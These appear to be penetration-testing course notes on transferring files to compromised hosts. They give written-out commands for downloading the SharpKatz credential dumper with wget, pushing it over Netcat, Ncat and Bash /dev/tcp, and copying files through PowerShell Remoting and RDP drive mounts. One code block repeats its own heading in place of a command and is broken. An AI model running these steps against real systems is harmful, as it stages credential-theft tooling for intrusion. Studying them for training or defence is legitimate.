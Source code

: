 
### File Transfer with Netcat and Ncat

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target

- first start Netcat (nc) on the compromised machine, listening with option -l, selecting the port to listen with the option -p 8000, and redirect the stdout using a single greater-than > followed by the filename, SharpKatz.exe

**NetCat - Compromised Machine - Listening on Port 8000**
```
nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished

**Ncat - Compromised Machine - Listening on Port 8000**
```
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

- From the attack host connect to the target over port 8000 with Netcat and send the file as input to Ncat
- The option -q 0 will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed

**Netcat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

- we can opt for --send-only rather than -q. The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted
- Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with --send-only, there is no need to anticipate further incoming information

**Ncat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

- Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. 
- This method is useful in scenarios where there's a firewall blocking inbound connections. 
- Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat

**Attack Host - Sending File as Input to Netcat**
```
Attack Host - Sending File as Input to Netcat
```

**Compromised Machine Connect to Netcat to Receive the File**
```
nc 192.168.49.128 443 > SharpKatz.exe
```

Perform the same operations with Ncat

**Attack Host - Sending File as Input to Ncat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connect to Ncat to Receive the File**
```
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

- If ncat or netcat aren't available, bash supports read/write operations via /dev/TCP 
- Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers

**NetCat - Sending File as Input to Netcat**
```
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer 

- PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions
- Enabling PowerShell remoting creates both an HTTP and an HTTPS listener
- The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**
```
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Because this session already has privileges over DATABASE01, we don't need to specify credentials. In the example below, a session is created to the remote computer named DATABASE01 and stores the results in the variable named $Session

```
$Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


### RDP

Use the Linux tools below to RDP into a machine:
- xfreerdp
- rdesktop
- remmina

As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session


**Mounting a Linux Folder Using rdesktop**
```
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

**Mounting a Linux Folder Using xfreerdp**
```
xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```





